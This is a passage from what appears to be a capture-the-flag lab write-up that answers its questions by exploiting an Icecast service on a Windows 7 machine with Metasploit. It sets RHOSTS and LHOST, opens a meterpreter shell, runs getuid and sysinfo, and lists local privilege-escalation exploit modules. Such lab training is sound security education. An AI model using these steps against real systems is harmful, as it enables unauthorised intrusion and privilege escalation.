 ```
Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

> **RHOSTS** is the only required option that is blank

- <code>set RHOSTS</code> to target IP
- <code>set LHOSTS</code> to attack machine public IP/Tunnel IP for VPN
- <code>run</code> or <code>exploit</code> to start exploit
    - If exploit is succesful, it should open a meterpreter shell

## Escalate

### Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

Your shell should look like this: <code>meterpreter</code>

> The name of the shell is **meterpreter**

### What user was running that Icecast process?

> <code>getuid</code> returns us Dark-PC\\**Dark**

### What build of Windows is the system?

> <code>sysinfo</code> returns us <code>OS              : Windows 7 (6.1 Build **7601**, Service Pack 1)</code>

### What is the architecture of the process we're running?

> <code>sysinfo</code> also returned <code>Architecture    : **x64**</code>

### Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

Running post/multi/recon/local_exploit_suggester gives us these results:

```
#   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
```
